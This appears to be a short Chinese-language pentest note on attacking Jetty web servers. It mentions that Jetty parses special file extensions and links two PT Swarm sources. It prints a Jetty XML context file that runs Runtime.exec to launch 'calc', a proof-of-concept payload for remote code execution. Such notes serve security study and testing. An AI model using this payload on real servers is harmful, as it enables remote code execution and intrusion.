


- 1、可解析特殊文件扩展名（同 Resin）



-
2、[A tip for getting RCE in Jetty apps with just one XML file!](https://twitter.com/ptswarm/status/1555184661751648256)

```xml
<?xml version="1.0"?>
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">
    <Call class="java.lang.Runtime" name="getRuntime">
        <Call name="exec">
            <Arg>
                <Array type="String">
                    <Item>calc</Item>
                </Array>
            </Arg>
        </Call>
    </Call>
</Configure>
```

测试效果




3、[Jetty Features for Hacking Web Apps](https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/) `研究思路值得学习`